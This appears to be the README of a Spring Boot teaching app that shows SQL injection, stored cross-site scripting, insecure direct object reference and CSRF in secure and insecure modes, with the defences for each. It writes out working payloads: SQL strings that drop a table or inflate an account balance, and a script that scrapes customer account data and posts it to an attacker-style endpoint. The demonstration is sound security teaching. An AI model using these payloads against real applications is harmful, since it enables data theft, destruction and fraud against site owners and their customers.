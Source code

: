# Security Vulnerability Demo

The purpose of this application is to illustrate a few common security vulnerabilities in web applications. Understanding how these exploits work is critical in being able to defend against them. 

## Application Setup

This application runs in two different modes: 
* Secure - proper protections and being used to mitigate the attacks
* Insecure - the application is exposed to attacks

To run it in either mode, use the spring profile field when starting the app as follows:

Insecure

`mvn spring-boot:run -Dspring.profiles.active=insecure`
Use a browser to access `http://localhost:8080`

Secure

`mvn spring-boot:run -Dspring.profiles.active=secure`
User a browser to access `http://localhost:8081`

In secure mode, you also have the option to enable or disable input validation using the following flag in `application-secure.properties`

`input.validation.enabled=false`

Disabling input validation will allow you to illustrate the power of an ORM and output encoding in protecting against attacks even when input validation does not occur.

Currently, the application illustrates the following vulnerabilities
* SQL Injection
* Stored Cross-Site Scripting (XSS)
* Insecure Direct Object Reference
* Cross-Site Request Forgery 

To use the application, you can log in as an employee or a customer after clicking on either the Employee Portal or Customer Portal link. For simplicity, no password is needed to log in.

| Username | Role | 
| --- | --- |
| emp | Employee |
| liz | Customer |
| katie | Customer |

To view the in-memory H2 database, click the H2 Database Console link and login using the JDBC URL `jdbc:h2:mem:testdb` and the username `user` with a blank password. From there, you should be able to see the console (pictured below) which will allow you to run SQL queries on the database.

![H2 Database Console Image](h2-capture.PNG)

## SQL Injection

To exploit this vulnerability, log in as a customer and inject SQL into the first name field as follows

`'; SQL Here; --`

For example:

`' DROP TABLE customer; --`

`' UPDATE bank_account SET balance=999999999 WHERE customer_id=2; --`

You may view the database by logging into the H2 console by clicking the link from the index page. The connection details are found in the application.properties file.

Defending against this vulnerability can be done at multiple levels
* ORM
* Input validation
* Database permissions restrictions

## Cross-Site Scripting

To exploit this vulnerability, log in as a customer and inject the following javascript into the first name field as follows

`<script type="text/javascript">$(document).ready(function(){var accountInfo="";$("table").children("tbody").children("tr").each(function(){$(this).children("td").each(function(){accountInfo=accountInfo+";"+$(this).text();});});$.post("http://localhost:8080/receive-hack", {accountInfo:accountInfo});});alert("hacked");</script>`

This attack will allow a malicious user to inject a script into the database that then will run on the employee level and expose customer details to another endpoint controlled by the malicious user. In this case, it is simply the same app server, but this would be different in a real attack.

Defending against this vulnerability can be done at multiple levels
* Validating user input 
* Encoding dynamic output on web pages

## Insecure Direct Object Reference

To exploit this vulnerability, log in as a customer and type in the following url which will allow you to access sensitive employee-only information directly.

`/sensitive`

This attack allows users to access information that they should not be authorized to access. 

Defending against this vulnerability can be done through multiple authorization mechanisms
* URL-level protection
* Method-level security with role-based access configuration
* Method pre-authorization configuration

## Cross-Site Request Forgery

To exploit this vulnerability, log in as an employee and then open the `csrf-example.html` in your browser which simulates an attacker's website. For the insecure mode, click the `Insecure CSRF` button and notice that account 1 for customer Katie Fake has been removed from the system. For secure mode, click the `Secure CSRF` and notice that the request is not processed by the system and the Forbidden Resource page is displayed. 

The CSRF attack will allow a malicious user to craft links/forms that can be sent over email or posted to forums that take advantage of the fact that a user may be already authenticated and authorized to perform actions on the targeted site. In this case, it closes an account that still has a balance.

Defending against this vulnerability can be done through multiple mechanisms
* Use random CSRF tokens that are automatically generated and must be supplied in order to perform a state-changing operation during a POST request. Notice the hidden input in the secure mode of the application with attribute `name="_csrf"`
* Check the refferer header in the client's HTTP request